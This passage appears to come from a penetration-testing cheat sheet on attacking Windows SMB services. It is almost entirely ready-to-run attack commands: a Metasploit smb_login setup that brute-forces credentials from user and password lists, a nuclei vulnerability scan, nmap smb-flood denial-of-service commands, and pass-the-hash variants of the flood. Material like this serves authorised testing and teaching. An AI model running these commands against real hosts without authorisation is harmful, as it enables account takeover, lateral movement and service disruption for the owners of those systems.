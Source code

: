```
   RHOSTS                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts

msf auxiliary(scanner/smb/smb_login) > set user_file users.lst

msf auxiliary(scanner/smb/smb_login) > set pass_file passwords.lst

msf auxiliary(scanner/smb/smb_login) > set threads 8

msf auxiliary(scanner/smb/smb_login) > run
```

## 05 - Scan Vulnerability 

```
$ nuclei -silent -u <IP> -t ~/nuclei-templates -tags windows,smb -code -esc
```

## 06 - Denial of Service

```
$ nmap -p 445 -Pn --script smb-flood [--script-args 'smbusername=<username>,smbpassword=<password>'] <IP>

$ sudo nmap -p U:137,T:139 -sUS --script smb-flood [--script-args 'smbusername=<username>,smbpassword=<password>'] <IP>
```

Pass the Hash.

```
$ nmap -p 445 -Pn --script smb-flood [--script-args 'smbusername=<username>,smbhash=<nt_hash>'] <IP>

$ sudo nmap -p U:137,T:139 -sUS --script smb-flood [--script-args 'smbusername=<username>,smbhash=<nt_hash>'] <IP>
```

---
## References
